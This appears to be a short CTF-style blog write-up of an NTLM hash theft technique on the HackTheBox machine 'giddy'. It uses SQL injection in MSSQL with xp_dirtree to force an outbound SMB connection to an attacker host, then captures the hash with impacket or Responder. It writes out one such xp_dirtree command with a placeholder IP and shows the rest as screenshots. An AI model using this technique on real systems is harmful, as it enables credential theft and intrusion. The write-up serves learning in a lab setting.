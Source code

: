 ```yaml
---
layout: post
title: Stealing Windows NTLM with SQLi
author: arimaqz
tags: [sqli]
mermaid: true
---
```


in this article I’m gonna show a neat technique that I learned recently while hacking a machine in HackTheBox platform! this technique leverages SMB outbound connection with SQLi to get access to the system.

## NTLM and SQLi? How?

now you might ask how does it work? the answer to this question is that in mssql or microsoft sql service, you can try to access a SMB share using the following command:
`exec master xp..dirtree \\<ip>\\<share>`

now what happens when you have both SQLi and weak firewall rules? you can try outbound SMB connection from the target host to your host and capture the NTLM hash that gets to your machine!

## Showing how it’s done

in this example i’m gonna use the same machine that i learned the technique from: `giddy`

let’s just assume that we found a SQLi in a parameter on the web server and we want to exploit it. suppose that we cannot find anything useful by dumping the database! the thing we can do is to try to make the target connect back to us via SMB and capture the hash while doing so!

### SQLi

first and foremost we should get our payload in place:

![connection via smb](/assets/img/posts/2022-06-18-stealing-windows-ntlm-with-sqli/connection-via-smb.webp)

it basically connects to my IP and a random share is enough.

### SMB server

to capture the NTLM hash that is passed when it tries to connect back to us, we can start the SMB server using a tool from impacket and execute the SQLi:

![capturing NTLM hash](/assets/img/posts/2022-06-18-stealing-windows-ntlm-with-sqli/capturing-ntlm-hash.webp)

and nicely done! we got the hash.

### Responder

this can also be done with responder:

![responder](/assets/img/posts/2022-06-18-stealing-windows-ntlm-with-sqli/responder.webp)

and capturing it:

![capture hash](/assets/img/posts/2022-06-18-stealing-windows-ntlm-with-sqli/capture%20hash.webp)

happy hacking!